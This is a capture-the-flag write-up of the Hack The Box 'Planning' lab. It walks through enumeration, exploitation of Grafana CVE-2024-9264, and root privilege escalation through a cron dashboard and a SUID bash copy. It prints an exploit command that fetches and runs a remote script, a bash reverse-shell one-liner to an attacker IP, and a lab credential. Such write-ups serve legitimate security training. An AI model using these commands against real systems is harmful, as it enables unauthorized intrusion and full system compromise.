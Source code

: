 In this writeup we will talk about planning lab which is an easy lab in Hack the box

[planning](images/planning.png)

# nmap

![nmap](images/nmap.png)

with this nmap scan we can see http is open but when you go to the host it says planning.htb so you need to add planning.htb in /etc/hosts file

# enumeration

after going to planning.htb you will notice its just a courses website. but here comes the subdomain enumeration

using ffuf or any subdomain enumeration you will notice theres a grafana.planning.htb

then you will use the provided credentials and you will notice the version of grafana is 11.0.0 which is vulnerable to **CVE-2024-9264**

# **CVE-2024-9264**

this cve is RCE n grafana because of duckdb sqli

git clone it then you will need to make a reverse shell to gain shell

`python3 [CVE-2024-9264.py](http://cve-2024-9264.py/) -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.16.99:8000/rev.sh -O /tmp/rev.sh && chmod +x /tmp/rev.sh && /tmp/rev.sh" [http://grafana.planning.htb](http://grafana.planning.htb/)`

the [rev.sh](http://rev.sh) ⇒

`#!/bin/bash
bash -i >& /dev/tcp/10.10.16.99/9090 0>&1`

then you will gain access.

# privilege escalation

when you gain access you will notice you can type **env** comand

env ⇒ command that displays the environment variables

then you will notice the password of user **enzo** is displayed.

gain access as enzo so you can unlock more approaches

# Enzo

as enzo go for privilege escalation approaches is searchng for cronjobs. so you will notice the crontab.db inside /opt

display it and you will figure out that theres a dashboard for the cronjobs running somewhere

with running `netstat -tupln` you will notice theres something running in port 8000

with **port forwarding** technique you can display that service in your localhost

`ssh -L 8000:127.0.0.1:8000 enzo@planning.htb`

go to 127.0.0.1:8000 and then type the password you gained from the cronjobs db

we now have the cronjobs and can set a new one

set a new one that copies the bash binary into the tmp directory

![cronjobs](images/cron.png)
from enzo run ./bash -p in the tmp folder and now we are root
